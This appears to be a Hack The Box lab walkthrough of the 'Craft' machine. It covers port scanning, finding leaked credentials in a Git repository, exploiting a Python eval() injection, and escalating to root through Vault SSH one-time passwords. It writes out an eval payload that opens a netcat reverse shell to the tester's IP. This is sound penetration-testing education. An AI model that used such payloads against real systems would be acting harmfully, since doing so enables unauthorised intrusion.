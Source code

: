 # 						  Craft - Hack The Box WalkThrough

### Victim IP: 10.10.10.110 Victim OS: Linux
### Enumeration - Namp
```
nmap -sV -sC -oA nmap_full -p1,65535 10.10.10.110
Nmap scan report for 10.10.10.110
Host is up (0.13s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp  open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
6022/tcp open  ssh      (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  2048 5b:cc:bf:f1:a1:8f:72:b0:c0:fb:df:a3:01:dc:a6:fb (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port6022-TCP:V=7.80%I=7%D=12/19%Time=5DFC45CB%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 19 22:54:28 2019 -- 1 IP address (1 host up) scanned in 47.95 seconds
```
### Enumerating the web page - https://craft.htb
![homepage](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/1_test.py.png | width=200)

The "API" link points to api.craft.htb and the "Sign in" button to "gogs.craft.htb" therefore we add these as entries to our hosts file in other to be able to resolve and reach them.

### Enumeration - https://api.craft.htb
Small API with basic GET, POST, PUT, DELETE actions, might be an interesting point of entry.
Authentication required for POST, PUT
![api_craft](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/api_craft.png | width=200)

### Enumeration - https://gogs.craft.htb
![gogs](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/gogs_craft.png | width=200)
Repository housing the code and content for api.craft.htb:
![commits](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/craft_api_repo.png | width=200)
Reviewing all issues,commits and merge requests, dinesh’s credentials were accidentally commited and removed: 
![dinesh_creds](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/dinesh_creds.png | width=200)
The issue fix by dinesh also shows a dangerous python function (eval):
![eval_in_issue_fix](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/eval_in_issue_fix.png | width=200)
The eval command resides in the POST brew function in brew.py and accepts user input.

The discovered credentials can be used in test.py
![1_test.py](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/1_test.py.png | width=200)


### Initial foothold - Exploiting python eval function
Test 1: On local system:
![Test 1](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/test1.png | width=200)

That works.
Test 2: with a similar "if" statement like in test.py:
![Test 2](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/test2.png | width=200)

That works too, however there is no result returned when it is tried on the victim end.

Test 3: Ping from victim to local machine:
tcpdump -i tun0 -nnv icmp
Payload (test.py): 
```brew_dict['abv'] = '__import__("os").system("ping -c 3 10.10.14.4")' ```
 
Test 4. Reverse shell (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):
Several failed till the netcat (without -e) option.

The payload in __test.py__ becomes: 
```brew_dict['abv'] = '__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 4445 >/tmp/f")'```

![Test 4](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/test3.png | width=200)

It's says root! Well that was easy! 
But wait no user.txt or root.txt flags. Of course it couldn’t be that easy 

Running "cat /etc/issue", LinEnum and linuxprivchecker again show that we are in a docker container
Release: Alpine Linux 3.9

### Obtaining User privileges  – user.txt
Dump database credentials – dbtest.py
![dbtest.py](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/dbtest.py.png | width=200)

Modify the SQL in the try statement to select all users from the database
![db_dump](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/dump_users.png | width=200)

Authenticate with discovered credentials and enumerate the git repository
All commits/merge requests ==> ssh private key, vault write commands …
<screenshot>
  
For now authenticate with the SSH private key and enter gilfoyle’s password (dumped from the db/git password) as passphrase

### Elevating to root – Leveraging Vault SSH Secrets Engine
After obtaining user access on the machine more enumeration is required to discover interesting escalation vectors. Running linuxenum and privesc scripts did not recover any vulnerabilities right away but did point out the vault write.

### Exploring vault:
![vault_secrets](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/vault_secrets_list.png | width=200)

Gilfoyle’s OTP setup:

![otp_setup](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/vault_write_ssh_otp.png | width=200)

Reviewing the SSH Secrets Engine Documentation: https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html 
gilfoyle@craft:~$ vault write ssh/creds/root_otp ip=127.0.0.1
![vault_write_ssh_otp](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/vault_write_ssh_otp_new.png | width=200)

Then SSH to the host using the generated key and the root user:
![root.txt](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/root.txt.png | width=200)

Conclusion:
This machine simulates a lot of real world scenarios. I was delighted at every discovery, learned a lot and reminded myself once again the importance of enumeration during a penetration test.
